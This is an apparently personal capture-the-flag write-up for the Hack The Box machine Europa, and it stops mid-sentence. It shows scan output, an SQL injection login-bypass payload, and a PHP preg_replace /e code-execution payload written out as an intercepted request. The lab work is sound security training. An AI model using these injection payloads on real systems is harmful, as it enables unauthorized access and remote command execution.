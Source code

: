 [[HTB-LABS]]
**source : [htb labs](https://app.hackthebox.com/machines/Europa)**
**difficulty : Medium**

Europa can present a bit of a challenge, or can be quite easy, depending on if you know what to look for. While it does not require many steps to complete, it provides a great learning experience in several fairly uncommon enumeration techniques and attack vectors.

#### recon
i run nmap using this command **`nmap -sCV -Pn -T4 10.10.10.22`**
```python
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-08 10:23 +03
Nmap scan report for 10.10.10.22
Host is up (0.13s latency).
Not shown: 997 filtered tcp ports (no-response)
PORT    STATE SERVICE  VERSION
22/tcp  open  ssh      OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 6b:55:42:0a:f7:06:8c:67:c0:e2:5c:05:db:09:fb:78 (RSA)
|   256 b1:ea:5e:c4:1c:0a:96:9e:93:db:1d:ad:22:50:74:75 (ECDSA)
|_  256 33:1f:16:8d:c0:24:78:5f:5b:f5:6d:7f:f7:b4:f2:e5 (ED25519)
80/tcp  open  http     Apache httpd 2.4.18 ((Ubuntu))
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
443/tcp open  ssl/http Apache httpd 2.4.18 ((Ubuntu))
|_ssl-date: TLS randomness does not represent time
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
| tls-alpn: 
|_  http/1.1
| ssl-cert: Subject: commonName=europacorp.htb/organizationName=EuropaCorp Ltd./stateOrProvinceName=Attica/countryName=GR
| Subject Alternative Name: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
| Not valid before: 2017-04-19T09:06:22
|_Not valid after:  2027-04-17T09:06:22
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 37.77 seconds

```

this what port `80` and `443` look like:
`http://10.10.10.22:80/`
![[Pasted image 20251008120944.png]]

`http://10.10.10.22:443/`
![[Pasted image 20251008121041.png]]

until now there's nothing , so i run this command **`sslscan 10.10.10.22`**
and the result was like this
```python
Version: 2.1.5
OpenSSL 3.5.3 16 Sep 2025

Connected to 10.10.10.22

Testing SSL server 10.10.10.22 on port 443 using SNI name 10.10.10.22

  SSL/TLS Protocols:
SSLv2     disabled
SSLv3     disabled
TLSv1.0   enabled
TLSv1.1   enabled
TLSv1.2   enabled
TLSv1.3   disabled

  TLS Fallback SCSV:
Server supports TLS Fallback SCSV

  TLS renegotiation:
Secure session renegotiation supported

  TLS Compression:
Compression disabled

  Heartbleed:
TLSv1.2 not vulnerable to heartbleed
TLSv1.1 not vulnerable to heartbleed
TLSv1.0 not vulnerable to heartbleed

  Supported Server Cipher(s):
Preferred TLSv1.2  256 bits  ECDHE-RSA-AES256-GCM-SHA384   Curve P-256 DHE 256
Accepted  TLSv1.2  256 bits  DHE-RSA-AES256-GCM-SHA384     DHE 2048 bits
Accepted  TLSv1.2  128 bits  ECDHE-RSA-AES128-GCM-SHA256   Curve P-256 DHE 256
Accepted  TLSv1.2  128 bits  DHE-RSA-AES128-GCM-SHA256     DHE 2048 bits
Accepted  TLSv1.2  256 bits  ECDHE-RSA-AES256-SHA384       Curve P-256 DHE 256
Accepted  TLSv1.2  256 bits  DHE-RSA-AES256-SHA256         DHE 2048 bits
Accepted  TLSv1.2  256 bits  ECDHE-RSA-AES256-SHA          Curve P-256 DHE 256
Accepted  TLSv1.2  256 bits  DHE-RSA-AES256-SHA            DHE 2048 bits
Preferred TLSv1.1  256 bits  ECDHE-RSA-AES256-SHA          Curve P-256 DHE 256
Accepted  TLSv1.1  256 bits  DHE-RSA-AES256-SHA            DHE 2048 bits
Preferred TLSv1.0  256 bits  ECDHE-RSA-AES256-SHA          Curve P-256 DHE 256
Accepted  TLSv1.0  256 bits  DHE-RSA-AES256-SHA            DHE 2048 bits

  Server Key Exchange Group(s):
TLSv1.2  141 bits  sect283k1
TLSv1.2  141 bits  sect283r1
TLSv1.2  204 bits  sect409k1
TLSv1.2  204 bits  sect409r1
TLSv1.2  285 bits  sect571k1
TLSv1.2  285 bits  sect571r1
TLSv1.2  128 bits  secp256k1
TLSv1.2  128 bits  secp256r1 (NIST P-256)
TLSv1.2  192 bits  secp384r1 (NIST P-384)
TLSv1.2  260 bits  secp521r1 (NIST P-521)
TLSv1.2  128 bits  brainpoolP256r1
TLSv1.2  192 bits  brainpoolP384r1
TLSv1.2  256 bits  brainpoolP512r1

  SSL Certificate:
Signature Algorithm: sha256WithRSAEncryption
RSA Key Strength:    3072

Subject:  europacorp.htb
Altnames: DNS:www.europacorp.htb, DNS:admin-portal.europacorp.htb
Issuer:   europacorp.htb

Not valid before: Apr 19 09:06:22 2017 GMT
Not valid after:  Apr 17 09:06:22 2027 GMT

```

as you see it found two Alt-names one is `www.europacorp.htb` and the other one is 
`admin-portal.europacorp.htb` admin portal is the most valuable so i will add it to `/etc/hosts`

after going to **`https://admin-portal.europacorp.htb/`** it will show us login page 
![[Pasted image 20251008121818.png]]

here after try some sqli payloads , i found i can login without need the password but i dont have the email and i need to found it 
i found this email **`admin@europacorp.htb`**
how?

![[Pasted image 20251008122350.png]]
click on lock then press `connection` 
then click on `more information`
then `view certificate`
will show some info , i found the email there

#### use sqli to login
to login i use burp to intercept the login request and i change the `POST` data to this 
**`email=admin%40europacorp.htb'-- -&password=ddddwoowo`**  
now i'm in
i was in dashboard after crawling i found this `https://admin-portal.europacorp.htb/tools.php` that could let me in the machine 
![[Pasted image 20251008123253.png]]
write anything and intercept it by burp and the request will look like this : (after decode it)
```python
POST /tools.php HTTP/1.1
Host: admin-portal.europacorp.htb
Cookie: PHPSESSID=o2ijk8chp7f6t0446m8n7bgkd2
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Content-Type: application/x-www-form-urlencoded
Content-Length: 1681
Origin: https://admin-portal.europacorp.htb
Referer: https://admin-portal.europacorp.htb/tools.php
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
Connection: keep-alive

pattern=/ip_address/&ipaddress=ali&text="openvpn": {
        "vtun0": {
                "local-address": {
                        "10.10.10.1": "''"
                },
                "local-port": "1337",
                "mode": "site-to-site",
                "openvpn-option": [
                        "--comp-lzo",
                        "--float",
                        "--ping 10",
                        "--ping-restart 20",
                        "--ping-timer-rem",
                        "--persist-tun",
                        "--persist-key",
                        "--user nobody",
                        "--group nogroup"
                ],
                "remote-address": "ip_address",
                "remote-port": "1337",
                "shared-secret-key-file": "/config/auth/secret"
        },
        "protocols": {
                "static": {
                        "interface-route": {
                                "ip_address/24": {
                                        "next-hop-interface": {
                                                "vtun0": "''"
                                        }
                                }
                        }
                }
        }
}
                                
```

if you see here `/ip_address/` this is  Regular Expressions which is danger, after search i found that if i add `e` , like this `/ip_address/e` and change this to command `ipaddress=ali` change `ali` to the command

after all it will be like this **`pattern=/ip_address/e&ipaddress=system(whoami)&text="openvpn":`**'

but before all of this , dont forget that we have sqli and we can use sqlmap to get some `--dump`
by using this command
